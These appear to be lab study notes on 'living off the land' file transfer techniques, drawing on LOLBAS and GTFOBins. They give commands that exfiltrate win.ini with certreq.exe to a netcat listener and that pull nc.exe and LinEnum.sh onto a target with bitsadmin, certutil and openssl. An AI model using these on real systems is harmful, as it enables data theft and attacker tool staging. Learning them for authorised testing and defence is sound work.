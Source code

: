 
- https://lolbas-project.github.io/
- https://gtfobins.github.io/

LOLBinary functions:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

### LOLBAS

search '/download' or '/upload' in search bar

Upload win.ini from target to host
```cmd-session
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```
```shell-session
sudo nc -lvnp 8000
```
(listen on host for win.ini)


### GTFOBins

Search '+file download' or '+file upload' in search bar

Create certificate on target
```shell-session
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Start up Server on target
```shell-session
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Download the file on host
```shell-session
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```


### Bitsadmin Download Functions

BITS - Background Intelligent Transfer Service
- Download files form HTTP sites and SMB shares.

File Download with Bitsadmin
```powershell-session
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell Bitsadmin download
```powershell-session
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```


### Certutil

Download
```cmd-session
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```



